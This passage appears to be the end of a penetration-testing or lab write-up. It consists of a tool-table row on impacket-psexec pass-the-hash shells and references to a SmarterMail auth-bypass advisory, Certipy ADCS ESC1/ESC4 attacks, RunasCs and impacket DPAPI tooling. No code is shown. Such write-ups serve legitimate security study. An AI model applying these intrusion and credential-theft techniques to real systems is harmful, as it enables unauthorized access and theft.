| **impacket-psexec** | Pass-the-hash shell via Admin$ share |

**References:**
- [WatchTowr WT-2026-0001 SmarterMail Auth Bypass](https://labs.watchtowr.com/attackers-with-decompilers-strike-again-smartertools-smartermail-wt-2026-0001-auth-bypass/)
- [ADCS ESC1 Certipy](https://github.com/ly4k/Certipy)
- [ADCS ESC4 Template Modification](https://github.com/ly4k/Certipy#esc4)
- [RunasCs](https://github.com/antonioCoco/RunasCs)
- [impacket-dpapi](https://github.com/fortra/impacket)